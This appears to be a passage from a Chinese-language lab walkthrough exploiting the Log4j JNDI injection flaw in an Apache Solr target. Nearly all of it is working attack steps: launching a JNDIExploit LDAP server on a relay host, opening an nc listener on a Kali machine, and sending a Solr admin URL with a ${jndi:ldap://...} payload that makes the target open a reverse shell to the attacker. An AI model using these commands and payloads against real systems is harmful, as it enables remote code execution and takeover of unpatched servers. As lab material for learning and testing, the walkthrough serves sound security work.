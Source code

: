 首先在中转机上使用`JNDIExploit-1.2-SNAPSHOT.jar`文件使用java启动，命令如下：

代码语言：javascript

复制

```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 10.211.55.3
```

其中：`10.211.55.3`为中转机的ip地址

![](assets/44f107f0b3f2b5530e98719a9edd5df6.png)

然后在攻击机上开启监听：`nc -lvvp 6666`

![](assets/c62c69df566a467c256b65d13ad95889.png)

此时构造如下命令：

代码语言：javascript

复制

```
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://10.211.55.3:1389/Basic/ReverseShell/10.211.55.23/6666}
```

其中：

*   `http://127.0.0.1:8983`为靶机的地址
*   `10.211.55.3`为中转机地址
*   `10.211.55.23`为Kali攻击机ip地址，此时要反弹shell
